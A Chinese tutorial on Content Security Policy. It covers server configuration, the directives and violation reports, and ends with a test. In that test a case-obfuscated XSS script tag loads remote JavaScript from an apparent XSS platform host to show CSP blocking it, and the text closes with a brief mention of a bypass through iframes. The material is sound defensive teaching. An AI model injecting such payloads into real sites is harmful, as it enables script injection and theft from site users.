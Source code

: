 # 关于CSP
> 内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。(摘自MDN web docs)

个人理解就是一种执行在浏览器端的页面安全策略，通过设置白名单允许页面内容来自指定的源，比如验证js脚本的来源来消除来自其他源的js脚本加载，这样就能防止xss远程加载js脚本。

# 相关配置
两种
## 直接在html页面中添加
示例：
```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```
## 配置服务器，使其在响应头添加
- Apache
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
```
Header set Content-Security-Policy "default-src 'self';"
```
- Nginx
在 server {}对象块中添加如下代码
```
add_header Content-Security-Policy "default-src 'self';";
```
- IIS 
web.config:中添加
```
<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>
```
这样response 头里面就会有Content-Security-Policy: 标签
```
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
```

# 关于csp的语法（简单介绍）

## 默认限制
> 什么都不会就直接上一个默认限制就行了,例如`Content-Security-Policy: default-src 'self'`限制资源只能从本地加载，不管是js，还是图片，都只能从本地加载

## 详细的资源加载限制(摘自[知乎:阿里聚安全](https://www.zhihu.com/question/21979782/answer/122682029))
> 可以对每种资源进行详细的加载限制
- `script-src` 外部脚本加载限制
- `style-src` 样式表
- `img-src` 图像
- `media-src` 音频视频的加载
- `font-src` 字体文件
- `object-src`插件（比如 Flash）
- `child-src`框架
- `frame-ancestors`嵌入的外部资源（比如\<frame\>、\<iframe\>、\<embed\>和\<applet\>）
- `connect-src`HTTP 连接（通过 XHR、WebSockets、EventSource等）
- `worker-src` worker脚本
- `manifest-src` manifest 文件
> url相关
- `frame-ancestors` 限制嵌入框架的网页
- `base-uri` 限制 `<base#href>`
- `form-action` 限制 `<form#action>`
> 其他其他安全相关
- `block-all-mixed-content`：HTTPS 网页不得加载 HTTP 资源（浏览器已经默认开启）
- `upgrade-insecure-requests`：自动将网页上所有加载外部资源的 HTTP 链接换成 HTTPS 协议 相关类似的还有[HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Securityv)
- `plugin-types`：限制可以使用的插件格式
- `sandbox`：浏览器行为的限制，比如不能有弹出窗口等。

## 将违例内容进行反馈报告
> 需要在CSP规则中写明report-uri策略，然后参数中有一个地址接收这些报告，报告格式是json
大概写法事这个样子拿apache配置为例
```
Header set Content-Security-Policy "default-src 'self';report-uri http://12.12.12.12:7777"
```
返回的json大概如下：
```
{
    "csp-report":{
        "document-uri":"http://hhhhh.com/",
        "referrer":"",
        "violated-directive":"script-src-elem",
        "effective-directive":"script-src-elem",
        "original-policy":"default-src 'self';report-uri http://12.12.12.12:7777",
        "disposition":"enforce",
        "blocked-uri":"https://xss.pt/XUXds",
        "status-code":200,
        "script-sample":""
    }
}
```

# 测试
- 配置虚拟主机
```
<VirtualHost 12.12.12.12:80>
  DocumentRoot "/var/www/ipv4"
  ServerName    hhhhh.com
</VirtualHost>
Header set Content-Security-Policy "default-src 'self';"
```
重启apache服务，查看响应头是否含有Content-Security-Policy： default-src 'self';
- 到页面中加载远程脚本
<sCRiPt sRC=https://xss.pt/XUXdj></sCrIpT>
- 然后这时浏览器就会报错
 比如chrome：
```
Refused to load the script 'https://xss.pt/XUXdj' because it violates the following Content Security Policy http://hhhhhh.com directive: "default-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'default-src' is used as a fallback.
```

相关文档：
- [MDN_web_docs-内容安全策略( CSP )](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
- [知乎-Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击？](https://www.zhihu.com/question/21979782)
- [MDN_web_docs-HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Security)
- [阮一峰-Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)
- [先知社区-如何巧妙绕过csp](https://xz.aliyun.com/t/2438) 感觉这个绕过思路就是通过iframe加载一些没有csp的页面，然后攻击父窗口，有